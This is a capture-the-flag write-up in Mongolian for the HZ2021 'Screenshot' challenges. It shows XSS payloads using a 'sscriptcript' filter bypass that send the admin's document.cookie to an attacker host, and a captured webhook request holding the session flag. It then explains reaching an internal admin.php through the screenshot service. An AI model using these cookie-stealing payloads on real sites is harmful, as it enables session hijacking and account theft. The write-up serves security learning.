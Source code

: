 ## Асаах

Docker desktop version биш docker engine  суулгаарай. 

```console
[root@localhost HZ2021]# docker --version
Docker version 20.10.10, build b485636
[root@localhost HZ2021]# docker-compose up -d
```


## Screenshot-1

`http://ipaddress/1337:/feed.php`
XSS өртөмтгий байх амархан шалгаж болно. 

```js
<sscriptcript> new Image().src="http://<ATTACKERIP>:<port>/?"+document.cookie; </sscriptcript>
```

эсвэл
```js
<sscriptcript>document.write('<img src="http://ATTACKERIP/?'+document.cookie+'" />')</sscriptcript>
```

ирсэн хүсэлтийг шалгавал


```
request: https://webhook.site/ef1e3938-3e7a-49e6-bac0-09cb98fbf017?c=PHPSESSID%3DHZ%7Bye%40h_admin_cook1e_and_fl%40g_0f_ScreenShot_1%7D
parameter:   	PHPSESSID=HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

Headers
connection: close
host: 	webhook.site
accept-language: 	en,*
accept-encoding: 	gzip, deflate
accept: 	*/*
user-agent: 	Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
referer:	http://screen/god-wisper.php
content-length: 	
content-type:	
```
flag
>HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

## Screenshot-2

admin.php рүү хандвал Зөвхөн дотоод IP хандана уу гэсэн байх бөгөөд XSS ээр ирсэн хүсэлтийг анхааралтай харвал. 

**`referer:	http://screen/god-wisper.php`** гэж байгаа

`http://screen/` гэдэг хаяг байх бөгөөд үүний screenshot зургыг харвал тухайн сайт нь өөрөө байна. энэ нь docker ийн дотоод url хаяг гэж харж болохоор байна. иймд `http://screen/admin.php` -н screenshot -г харвал 

flag гарч ирнэ. 

![9d7c1f6f904b57a79b892e.jpg](9d7c1f6f904b57a79b892e.jpg)
